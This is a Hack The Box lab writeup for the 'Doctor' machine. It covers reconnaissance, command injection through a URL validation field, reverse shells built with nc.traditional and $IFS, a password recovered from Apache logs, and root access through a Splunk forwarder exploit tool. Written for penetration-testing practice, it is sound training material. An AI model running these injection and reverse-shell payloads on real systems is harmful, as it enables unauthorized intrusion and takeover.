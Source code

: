 ```yaml
---
layout: post
title:  "Hack The Box - Doctor Writeup"
date:   2021-02-06 06:00:00
image: 
  path: /assets/img/htb/HTB-Doctor/Header.png
author: Ryan
image: 
  path: /assets/img/htb/HTB-Doctor/Header.png
---
```


- Table of Contents
{:toc .large-only}

*[Hack The Box](https://hackthebox.eu) is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.*  
![Header](/assets/img/htb/HTB-Doctor/Header.png)

Doctor is an Easy level linux machine. Based on the creator and community statistics, this box is fairly balanced over the type of approach we'll need to take, leaning slightly more towards the "CVE" and "Real" categories.  
![Statistics](/assets/img/htb/HTB-Doctor/Statistics.png)

## Information Gathering

#### Nmap:
By scanning the target IP with Nmap, we're able to find what ports are open (`-p`), while fingerprinting the services running and their versions (`-sV`). We're also running the default set of scripts (`-sC`), which can help find additional information and automate some of our initial steps. Once the scan is completed, nmap will write the results to our Extracts folder (`-oA`)  
`>> nmap -p22,80,8089 -sV -sC -oA Extracts/Doctor 10.10.10.209`  
![Nmap](/assets/img/htb/HTB-Doctor/nmap.png)

* **Port 22 - SSH**: Pretty standard port to see open on linux boxes, we can try to leverage this later on if we find credentials or private key.
* **Port 80 - HTTP**: A basic websever hosting what appears to be a customer-facing website advertising a doctor and his services.
* **Port 8089 - Splunkd**: [Splunk](https://www.splunk.com/), is a software platform used to search, analyze, and visualize data. Commonly used for event logs.

### Customer Website
Navigating to [10.10.10.209](10.10.10.209) allows us to take a look around the website and try to find any clues that may lead to some sort of login or feature we can leverage. One of the first peices of information we find is the email address for `info@doctors.htb`. Let's get that added to our hosts file and check it out.  
![New Host](/assets/img/htb/HTB-Doctor/Recon_Email.png)

### Doctors Secure Messaging
Navigating to the [doctors.htb](doctors.htb) site, we're shown a login screen for what appears to be some sort of internal messaging system. While we're not able to log in with any credentials, we do have the ability to create a new account lasting for 20 minutes.  
![Account Creation](/assets/img/htb/HTB-Doctor/Recon_Account.png)

One of the main features in this area of the site is the ability to post messages. After testing various types of content in the message body, we're shown the following error message:  
![URL Validation](/assets/img/htb/HTB-Doctor/Recon_URL.png)

Without observing any client-side javascript conducting this URL validation, it appears to be coming from the server. Let's try to manipulate it.

## Foothold
While [https://www.google.com](https://www.google.com) looks completely legitimate to us, HackTheBox might be blocking it because it's an external resource. Let's try using our own IP in the URL. we can set up out listener with:  
`>> nc -lvnp 1234`

Request:  
![Local URL](/assets/img/htb/HTB-Doctor/Foothold_1_URL.png)

Response:  
![Local URL](/assets/img/htb/HTB-Doctor/Foothold_1_URL2.png)

Interstingly, we recieve the same invalid error message as before, but by checking our listener, we see the target box made a call to our machine using `curl`.

### Testing for Injection
As the box's "Doctor" name and logo suggests, we should test out the possibility for injection. If the application is passing our URL directly into curl, it could be possible to use [Command Substitution](https://tldp.org/LDP/abs/html/commandsub.html) to run additional commands. Let's try adding the output of a simple `whoami` to the end of our URL to verify:  

Request:  
![Local URL](/assets/img/htb/HTB-Doctor/Foothold_1_Injection.png)

Response:  
![Local URL](/assets/img/htb/HTB-Doctor/Foothold_1_Injection2.png)

We're succesfully able to inject additional commands into the url verification. Looks like we're running as the `web` user.

### Weaponizing Our Payload
While we have the ability to run commands through the application, we're able to step up our access by starting a reverse shell. After checking for the tools available to us, we're able to accomplish this through [nc.traditional](https://www.commandlinux.com/man-page/man1/nc.traditional.1.html) and the [Internal Field Separator](https://en.wikipedia.org/wiki/Input_Field_Separators) `$IFS`. 

Listener:  
`>> nc -lvnp 8888`  

Payload:  
`http://10.10.14.2:1234/$(nc.traditional$IFS'10.10.14.2'$IFS'8888'$IFS-e$IFS'/bin/sh')`  

![Reverse Shell](/assets/img/htb/HTB-Doctor/Foothold_1_ReverseShell.png)

## Lateral Movement
Our first step now that we've got a direct connection into the machine is to upgrade the shell.  
![Upgrade Shell](/assets/img/htb/HTB-Doctor/Lateral_UpgradeShell.png)

Looking inside our `web` user's home directory, we see only a couple files related to the blog, but no flag. It appears we'll need to pivot into the user `shaun` to access the first flag.

### Enumeration
As we step through the blog files, we come across the database, `site.db`. Dumping the contents reveals that we'll want to find another way to get access, as the password is protected by a very strong hashing algorithm, bCrypt.  
![Site Databse](/assets/img/htb/HTB-Doctor/Lateral_Database.png)

While we may be unable to retrieve the user's password from the database, it could be worth looking through the application logs to see if we can find anything from before the credentials are hashed. Being a member of the `adm` group, this should be possible.  
`>> groups`  
![User Group](/assets/img/htb/HTB-Doctor/Lateral_Groups.png)  
`>> grep -i password $(find /var/log/apache2 -type f)`  
![Apache Logs](/assets/img/htb/HTB-Doctor/Lateral_Logs.png)

It's pretty common for user's to accidentally type their password into the wrong field. Since we can see this doesn't fit an email pattern, we can try passing `Guitar123` around and see if it gets us anywhere.  
![Shuan User](/assets/img/htb/HTB-Doctor/Lateral_Shaun.png)  

`shaun:Guitar123`

### User Flag
![User Flag](/assets/img/htb/HTB-Doctor/User_Flag.png)  

## Privilege Escalation
Early on, we discovered the existence of a Splunk service running on port 8089. Researching that service led to an interesting Github repository for a tool called [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2). Their primary focus is on "Local privilege escalation, or remote code execution, through Splunk Universal Forwarder (UF) misconfigurations". Let's try getting another reverse shell going through Splunk using shaun's credentials.  

Listener:  
`>> nc -lvnp 9999`

Payload:  
`>> python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --username shaun --password Guitar123 --lhost 10.10.14.2 --lport 8888 --payload 'nc.traditional 10.10.14.28 9999 -e /bin/sh'`

![PrivEsc Splunk](/assets/img/htb/HTB-Doctor/PrivEsc_Splunk.png)  
![PrivEsc Root](/assets/img/htb/HTB-Doctor/PrivEsc_Root.png)  

### Root Flag
![Root Flag](/assets/img/htb/HTB-Doctor/Root_Flag.png) 